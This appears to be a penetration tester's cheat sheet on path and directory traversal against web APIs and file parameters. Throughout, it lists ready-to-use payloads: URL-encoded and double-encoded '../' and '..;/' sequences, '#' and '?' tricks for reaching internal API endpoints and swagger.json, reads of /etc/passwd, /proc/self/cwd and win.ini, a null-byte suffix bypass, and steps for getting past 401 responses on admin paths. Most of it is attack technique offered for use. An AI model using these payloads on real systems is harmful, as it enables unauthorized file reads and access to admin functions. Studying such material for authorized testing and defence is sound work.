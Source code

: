 
  


## Where to Look for

- in API Endpoints /api/v1/users/1
- in params such as file, image url

==Its not always about /etc/passwd SOMETIMES ITS ABOUT INTERNAL API ENUM/seneitive endpoints==

### Scenario

https://host/api/v1/user/1 -> requests data from -> https://internal-v1/user/1

- What if you ask %2e%2e%2f -> url encoded -> ../
- TRY double encoded
- Try triple encoded
- ..;/ -> encode this as well to -> %2e%2e%3b%2f  
    https://host/api/v1/user/ %2e%2e%2fadmin -> requests data from  
    -> https://internal-v1/user/../admin -> https://internal-v1/user/admin

### SCENARIO 2

- this internal thing https://host/api/v1/user/1 -> requests data from -> https://internal-v1/user/1  
    CAN BE DIFFERENT FOR EXAMPLE
    - https://host/api/v1/user/SAM -> requests data from -> https://internal-v1/SAM/user
        - YOU DONT KNOW  
            -==A good trick == use these chars # ? %00
        - use# or ? like this https://host/api/v1/user/admin? ->https://internal-v1/admin?/user
        - now add that with path traversal ../? or url encode it always
        - https[:]//host/api/v1/user/%2e%2e[FUZZ]%3f? -> https://internal-v1/../?/user
        - These things could maybe give you access to swagger.json -> NOW YOU HAVE API DEFINITIONS > TEST THEM ALL

## TESTING CASES

- /api/private - 401
- /api/x/../private - 302 ==interesting==
    - TRY brute force now
    - /api/x../private/FUZZ
- Possible that server blocks or has some defense to relative file path
    - /host/image?name=../../etc/passwd -> failed
    - try this /host/image?name=/etc/passwd -> absolute file path -> got data

## Situation

- http[:]//host/admin -> 401 User authentication failed
    - [DONT STOP HERE , IT's time to try different possibilities]
- 1st REFLEX Brute force
    - /host/admin/FUZZ maybe 1-endpoint could bypass the authentication for example /host/admin/manage [Try to do dumb things that makes no sense to server]
- 2nd REFLEX
    - /host/x/../admin
    - /host/x/..;/admin
- 3rd REFLEX
    - Try different methods like POST , PUT

## Note

- On Windows, both ../ and ..\ are valid directory traversal sequences. The following is an example of an equivalent attack against a Windows-based server:
    - https[:]//insecure-website.com/loadImage?filename=......\windows\win.ini
- Go as far as possible ../../../../.../../../.././etc/passwd
- /proc/self/cwd/ -> current working directory
- /tmp
- /var/www/
- filename =4.jpg works try this filename=../../../proc/self/cwd/4.jpg


  
DIRECTORY TRAVERSALS

[Important]

- ?file=./image.png -> same image
- try ?file=../../../../etc/passwd -> any number of ../ doesnt matter it will just make u go up to / directory
- sometimes, you have this type of files  
    `/file.php?file=/var/www/image.png`  
    For this, you can try,  
    `/file.php?file=/var/www/../../../../etc/passwd`

#### Server Adding suffixes [in older version of php, below 5.3.4 , it uses null byte to remove stuff after that by default]

- Ez way to identify, sometimes, ?file=image1 -> goes to server and server adds .png extension, for example and makes it ?file=image1.png
- Try adding ?file=image1.png , clearly it wont work because server adds extension and makes it , ?file=image.png.png
- Server tries to add suffixes in ur file path , [Ez Bypass is adding null byte %00] it kinda breaks the string
- ?file=../../../etc/passwd%00